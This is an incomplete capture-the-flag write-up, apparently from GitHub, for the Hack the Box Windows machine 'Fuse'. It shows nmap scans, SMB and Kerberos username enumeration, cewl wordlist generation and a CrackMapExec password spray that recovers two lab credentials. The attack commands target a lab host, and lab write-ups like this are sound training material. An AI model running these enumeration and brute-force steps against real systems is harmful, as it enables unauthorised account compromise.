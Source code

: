 # Hack the Box - Fuse (INCOMPLETE)

```CSS
Machine IP: 10.10.10.193 - Windows

```

## Port Scanning and Service Discovery

```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.193 -oN nmap.surface

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 16:31 IST
Nmap scan report for 10.10.10.193
Host is up (0.089s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49678/tcp open  unknown
49700/tcp open  unknown
49755/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 124.50 seconds
```
```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,445,464,593,636,3268,3269,5985 10.10.10.193 -oN nmap.deep

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 16:35 IST
Nmap scan report for 10.10.10.193
Host is up (0.082s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-03-31 11:19:01Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-03-31T11:19:08
|_  start_date: 2023-03-31T11:04:24
|_clock-skew: mean: 2h33m08s, deviation: 4h02m31s, median: 13m07s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-03-31T04:19:09-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```

---

## OS and Domain
  - CrackMapExec
```CSS
▶ crackmapexec smb 10.10.10.193
```
![image](https://user-images.githubusercontent.com/83878909/229113091-20e410db-ef11-4d3e-9840-7e5fcd065d14.png)

---

## Configuring DNS Resolution
  - Add Machine IP to `/etc/resolv.conf`.
  - Add Hostname to `/etc/hosts`

---

## Webpage
 ![image](https://user-images.githubusercontent.com/83878909/229113764-bbd518ab-82c4-4e6b-b1c3-cdaa511249e9.png)
 
### Gather Usernames
 - The webpage contains a bunch of usernames. Collecting the usernames and writing them to a text file.
![image](https://user-images.githubusercontent.com/83878909/229116611-0fd9d843-ea45-4b28-b88c-951983667aa8.png)
![image](https://user-images.githubusercontent.com/83878909/229116862-4f309a32-401b-421c-b947-9103d21a484f.png)
![image](https://user-images.githubusercontent.com/83878909/229117125-3e929593-e126-45ec-8a2e-116539f42d7c.png)

---

## Enumerate Usernames via Kerberos
  - Kebrute
```CSS
▶ kerbrute userenum --dc 10.10.10.193 -d fabricorp.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/229120245-34920022-fc71-41dd-b464-215c5a137658.png)

## Generate Passwords to Brute-Force
  - Cewl: Crawl the website to gather words which can be used as potential passwords.
```CSS
▶ cewl -d 7 -m 8 --with-numbers -w cewl.out http://fuse.fabricorp.local/papercut/logs/html/index.htm
```

---

## Brute Force Usernames and Passwords
  - CrackMapExec
```CSS
▶ crackmapexec smb 10.10.10.193 -u users.txt -p cewl.out
```
Credentials:
```CSS
bhult:Fabricorp01
tlavel:Fabricorp01
```

---


